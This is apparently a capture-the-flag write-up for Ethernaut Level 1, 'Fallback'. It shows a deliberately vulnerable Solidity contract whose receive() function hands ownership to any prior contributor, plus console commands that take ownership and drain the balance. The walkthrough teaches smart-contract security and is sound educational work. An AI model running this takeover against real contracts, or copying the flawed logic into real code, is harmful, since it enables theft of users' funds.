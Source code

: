 # Level 1 - Fallback ⏺

{% embed url="https://ethernaut.openzeppelin.com/level/1" %}

### Level Setup

{% hint style="info" %}
Look carefully at the contract's code below.

You will beat this level if

1. you claim ownership of the contract
2. you reduce its balance to 0



Things that might help:

* How to send ether when interacting with an ABI
* How to send ether outside of the ABI
* Converting to and from wei/ether units (see `help()` command)
* Fallback methods
{% endhint %}

### Level Contract

{% embed url="https://github.com/OpenZeppelin/ethernaut/blob/master/contracts/contracts/levels/Fallback.sol" %}

{% code lineNumbers="true" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {

  mapping(address => uint) public contributions;
  address public owner;

  constructor() {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    payable(owner).transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```
{% endcode %}

### Exploit

The exploit in this contract is in the `receive()` function as it changes the owner to _**any**_ `msg.sender` provided that the `msg.sender` has previously been added to the `contributions` mapping.

1. Start by contributing to the contract as this is needed to pass the `require` check in the `receive()` function. The contribution must be less than `0.001 ETH` to pass the `require` on the `contribute()` function (`line 23`).

{% code title="Paste into Chrome JavaScript console" %}
```javascript
await contract.contribute({
    value: toWei('0.0005'),
})
```
{% endcode %}

2. Become the owner by sending an amount of ETH directly to the contract which will [get picked up by](../../solidity-notes/receive-and-fallback.md) the `receive()` function (`line 38`).

{% code title="Paste into Chrome JavaScript console" %}
```javascript
await sendTransaction({
    to: contract.address,
    from: player,
    value: toWei('0.0001')
})
```
{% endcode %}

3. Now you are the owner, withdraw all the funds.

{% code title="Paste into Chrome JavaScript console" %}
```javascript
await contract.withdraw()
```
{% endcode %}

4. Submit instance... 🥳

### Completion Message

{% hint style="info" %}
You know the basics of how ether goes in and out of contracts, including the usage of the fallback method.

You've also learned about OpenZeppelin's Ownable contract, and how it can be used to restrict the usage of some methods to a privileged address.

Move on to the next level when you're ready!
{% endhint %}

### Notes

* This exploit shows how logic in the `receive()` function should be carefully reviewed as even though it can't be easily called through a standard contract function call, it's still possible to call it.
* The logic doesn't make much sense as I don't see what was trying to be achieved. Maybe to have a "secret" way to change the owner?
